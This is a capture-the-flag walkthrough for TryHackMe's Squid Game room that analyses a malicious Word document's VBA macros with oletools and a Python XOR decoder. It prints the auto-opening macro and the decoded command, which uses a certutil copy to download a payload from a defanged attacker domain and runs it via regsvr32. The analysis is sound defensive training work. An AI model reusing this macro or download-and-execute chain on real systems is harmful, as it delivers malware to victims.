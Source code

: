 # Try Hack Me - Squid Game, attacker 3

This is part 3 of a [5-part series of walkthroughs](./squid-game.md) for Try Hack Me's Squid Game room.

## 1. Identifying macros - oleid, oledump

Following on from [attacker1](./attacker1/attacker1.md) and [attacker2](./attacker2/attacker2.md), we can make some assumptions about our sample - namely that it is a .doc file and likely contains malicious VBA macros. Again, we can run [oleid](https://github.com/decalage2/oletools/wiki/oleid) to confirm this assumption : 

```console
remnux@remnux:~$ oleid attacker3.doc 
...snip...
--------------------+--------------------+----------+--------------------------
VBA Macros          |Yes, suspicious     |HIGH      |This file contains VBA    
                    |                    |          |macros. Suspicious        
                    |                    |          |keywords were found. Use  
                    |                    |          |olevba and mraptor for    
                    |                    |          |more info.                
...snip...
```

and [oledump](https://github.com/DidierStevens/DidierStevensSuite/blob/master/oledump.py) to tell us where these macros are located in the document's streams : 

```console
remnux@remnux:~$ oledump.py attacker3.doc 
A: word/vbaProject.bin
 A1:       423 'PROJECT'
 A2:        53 'PROJECTwm'
 A3: M    2017 'VBA/T'
 A4: m    1127 'VBA/ThisDocument'
 A5:      2976 'VBA/_VBA_PROJECT'
 A6:      1864 'VBA/__SRP_0'
 A7:       190 'VBA/__SRP_1'
 A8:       348 'VBA/__SRP_2'
 A9:       106 'VBA/__SRP_3'
A10: M    1291 'VBA/d'
A11:       723 'VBA/dir'
```

Extracting the macros found in streams A3, A4, and A10 with oledump's "-s" flag, we find that A4 defines some generic variables for the VBA environment, while A3 and A10 contain likely malicious code. Given that the autoopen() subprocedure is found in A3, we'll start our analysis there. 

## 2. Manual analysis, stream A3

(You can get pretty much everything we find in these 2 manual analysis sections by running [ViperMonkey](https://github.com/decalage2/ViperMonkey) on the sample, but this way is more fun.)

Stream A3 contains the following VBA code :

```vb
Sub autoopen()
    LG = h("12%2%...snip...%77")

    Dim XN As New WshShell
    Call XN.run("cmd /c set u=tutil&&call copy C:\Windows\System32\cer%u%.exe C:\ProgramData\1.exe", 0)
    Call XN.run(LG, 0)
End Sub
```

We can clean this up manually to have a better idea of what the code might be doing (but this refactor won't necessarily run as valid VBA) : 

```vb
Sub autoopen()
    decoded_command = decodeFunction("LONG-ENCODED-STRING")
    Dim shellInstance as New WshShell
    Call shellInstance.run("cmd /c copy C:\Windows\System32\certutil.exe C:\ProgramData\1.exe", 0)
    Call shellInstance.run(decoded_command, 0)
End Sub
```

So step by step, the code takes the following actions : 

1. Passes an apparently encrypted / encoded string to the function "h" - we haven't found this function yet, but it might be safe to assume that it decrypts / decodes the string.
2. Creates a new [Shell](https://docs.microsoft.com/en-us/office/vba/language/reference/user-interface-help/shell-function) instance capable of executing commands on the host.
3. Runs a command using the shell instance, calling cmd.exe to make a copy of "C:\Windows\System32\certutil.exe" at "C:\ProgramData\1.exe". [Certutils](https://docs.microsoft.com/en-us/windows-server/administration/windows-commands/certutil) ships with Windows and is used in the management of digital certificates - it is also commonly used in malware as a LOLbin due to it's ability to make HTTP requests. The "0" at the end of the call to Shell.run tells shell to hide the command line window, reducing the likelihood of detection. 
4. Runs the decoded command using the shell instance, again hiding the resulting command line window.

To fully understand what the code is doing and what it might want with certutils we need to find the function "h" that decodes / decrypts the second command. Luckily for us, this function is defined in stream A10.

## 3. Manual analysis, stream A10

*Q1 Provide the executable name being downloaded.*  
*Q2 What program is used to run the executable?*  
*Q3 Provide the malicious URI included in the maldoc that was used to download the binary.*  
*Q4 What folder does the binary gets dropped in?*  
*Q5 Which stream executes the binary that was downloaded?*  

Stream A10 contains the following VBA code :

```vb
Function h(ju)
    eR = Split(ju, "%")
    For lc = 0 To UBound(eR)
        hh = hh & Chr(eR(lc) Xor 111)
        Next lc
        h = hh
End Function

Function vY()
    vY = "util"
End Function
```

Ignoring the "vY" function (this doesn't seem to be used anywhere in the code), the "h" function appears to be a basic XOR implementation, removing the "%" character from the previously discovered string and XORing each remaining character against the key "111". We can decode the encoded command simply by implementing the same XOR function : 

```python
CIPHER = "12%2%11%79%64%12%79%77%28%10%..."
KEY = 111

cipher_chars = CIPHER.split('%')
plain = ''.join([chr(int(c) ^ KEY) for c in cipher_chars])
print(plain)
```
This gives us the following string : 

```
cmd /c "set u=url&&call C:\ProgramData\1.exe /%u%^c^a^c^h^e^ /f^ hxxp://8cfayv.com/bolb/jaent.php?l=liut6.cab C:\ProgramData\1.tmp && call regsvr32 C:\ProgramData\1.tmp"
```

which we can clean up a little more : 

```
cmd /c C:\ProgramData\1.exe /urlcache /f hxxp://8cfayv.com/bolb/jaent.php?l=liut6.cab C:\ProgramData\1.tmp && call regsvr32 C:\ProgramData\1.tmp
```

So this is the string that is passed to Shell.run() at the last line of the autoopen() function in stream A3. It calls cmd.exe to call certutils (or the copy of certutils at "C:\ProgramData\1.exe") with the "/urlcache /f" flags - [this makes certutils make a HTTP request](https://docs.microsoft.com/en-us/windows-server/administration/windows-commands/certutil#-urlcache) to the attacker-controlled domain. The response to this HTTP request is saved in `C:\ProgramData\1.tmp` and the resulting file is executed by yet another LOLbin commonly used in malware, [regsvr32](https://docs.microsoft.com/en-us/windows-server/administration/windows-commands/regsvr32).

This is as far as we can go with the sample - we've found an IOC in the attacker controlled-domain that serves the malicious executable and the likely location of an additional sample at `C:\ProgramData\1.tmp`.